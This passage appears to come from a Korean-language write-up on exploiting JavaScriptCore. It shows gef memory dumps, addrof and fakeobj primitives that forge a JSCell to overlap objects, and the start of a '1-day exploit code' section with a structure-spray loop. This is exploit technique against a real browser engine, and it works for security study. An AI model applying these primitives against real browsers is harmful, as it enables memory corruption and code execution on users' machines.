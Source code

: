     gef➤  tel 0x7fffb05b0080
    0x00007fffb05b0080│+0x0000: 0x0100160000001129  // a->JSC::JSCell
    0x00007fffb05b0088│+0x0008: 0x0000000000000000  // butterfly
    0x00007fffb05b0090│+0x0010: 0x0100160000001128  // a.a (fake JSC::JSCell)
    0x00007fffb05b0098│+0x0018: 0x0000000000000000  // a.b (fake butterfly)
    0x00007fffb05b00a0│+0x0020: 0xffff000000000003  // a.c

이제 `addrof`로 `a`의 주소를 얻고, `a+0x10`의 주소를 `fakeobj`로 받으면 성공적으로 오브젝트를 가져올 수 있다.

    >>> struct.unpack("d", struct.pack('Q', 0x00007fffb05b0080+0x10))
    (6.95328979012334e-310,)

    >>> b = fakeobj(6.95328979012334e-310)
    >>> b.a
    3
    >>> a.c = 4141
    4141
    >>> b.a
    4141

    # memory
    gef➤  tel 0x7fffb05b0080
    0x00007fffb05b0080│+0x0000: 0x0100160000001129  // a object
    0x00007fffb05b0088│+0x0008: 0x0000000000000000  // a butterfly |
    0x00007fffb05b0090│+0x0010: 0x0100160000001128  //     a.a     | b object
    0x00007fffb05b0098│+0x0018: 0x0000000000000000  //     a.b     | b butterfly
    0x00007fffb05b00a0│+0x0020: 0xffff00000000102d  //     a.c     |     b.a

이제 `object overlapping`을 확인할 수 있다.

## 1-day exploit code

    var structure_spray = []
    for (var i = 0; i < 1000; ++i) {
        var ary = [13.37];
        ary.prop = 13.37;
        ary['p'+i] = 13.37;
        structure_spray.push(ary);
    }

위에서 했던 spray코드이다.

    [13.37] [13.37] [length] [13.37]
                   |
            butterfly pointer

결과적으로 각 `ary`의 `butterfly`에는 이렇게 들어가게 된다. 이렇게 들어간 `JSObject`를 `structure_spray`의 `butterfly`에 배열로 넣게 된다.

    gef➤  tel 0x00007fe0001fa070-0x10
    0x00007fe0001fa060│+0x0000: 0x00007fe0001fa001  →  0x7000007fffb0d016
    0x00007fe0001fa068│+0x0008: 0x000003ec000003e8  // flag, length
    0x00007fe0001fa070│+0x0010: 0x00007fffb05b4380  →  0x010821070000013c  // idx: 0
    0x00007fe0001fa078│+0x0018: 0x00007fffb05b4390  →  0x010821070000013d  // idx: 1
    0x00007fe0001fa080│+0x0020: 0x00007fffb05b43a0  →  0x010821070000013e  // idx: 2
    ...

